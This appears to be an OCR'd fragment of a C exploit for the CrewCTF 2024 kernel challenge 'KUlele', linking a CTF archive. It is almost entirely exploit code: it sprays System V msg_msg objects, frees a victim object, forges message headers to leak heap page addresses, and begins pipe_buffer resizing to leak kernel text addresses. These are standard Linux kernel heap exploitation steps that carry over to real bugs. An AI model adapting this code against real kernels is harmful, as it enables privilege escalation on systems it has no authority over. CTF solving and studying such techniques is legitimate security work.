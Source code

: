 ```c

        msgSend(mids[i],0x7d0,trash);
    }
    del(0);
    memset(trash,'b',0xfd0);
    msgSpray(0x7d0,0x40,trash);
    int found  = -1;
    for(int i = 0 ; i < 0x40 ; i ++)
    {
        msgMsg * recv  = msgPeek(mids[i], 0x7d0);
        size_t *tmp = recv->mtext;
        if(*tmp == 0x6262626262626262)
        {
            found = i;break;
        }
    }
    if(found==-1)
        panic("No Luck");
    else
        success("Got It");

    
    

    // Leak cur Heap Page
    del(0);
    size_t head[] = {0,0x800,0x2000,0,0};
    char *buffer = calloc(0x7d0-8+0xfd0,1);
    memcpy(buffer+0xfd0,&head,sizeof(head));
    
    // // msgRecv(mids[found],0x1);
    for( int i = 0x80 ; i < 0xa0 ; i ++)
        msgSend(mids[i],0xfd0+0x7d0-8,buffer);
    msgMsg * recv = msgPeek(mids[found],0x2000);
    
    // hexdump(recv->mtext,0x2000);
    size_t cur = *(size_t *)(&recv->mtext[0x7d0]);
    size_t msg_id = mids[*(size_t *)(&recv->mtext[0x800]) - 0xdead000];
    if(msg_id>0x100)
        panic("No Luck");
    // warn(hex(msg_id));

    head[3] = cur-8;
    memcpy(buffer+0xfd0,&head,sizeof(head));
    del(0);
    for( int i = 0xa0 ; i < 0xc0 ; i ++)
        msgSend(mids[i],0xfd0+0x7d0-8,buffer);
    
    recv = msgPeek(mids[found],0x2000);
    // hexdump(recv->mtext,0x2000);

    cur  = *(size_t *)(recv->mtext+0xfd0)-0x800;
    warn(hex(cur));
    

    

    // Leak ktext

    msgRecv(msg_id,1);
    for(int i = 0 ; i < 0x20; i++){
        pipeBufferResize(pipe_fd[i][0],32);
        pipeBufferResize(pipe_fd[i][1],32);
```

[0]: https://github.com/sajjadium/ctf-archives/tree/0610daa3bdd02bc9056b84fdd69f96132ce27c2f/ctfs/CrewCTF/2024/pwn/KUlele
[1]: TBD
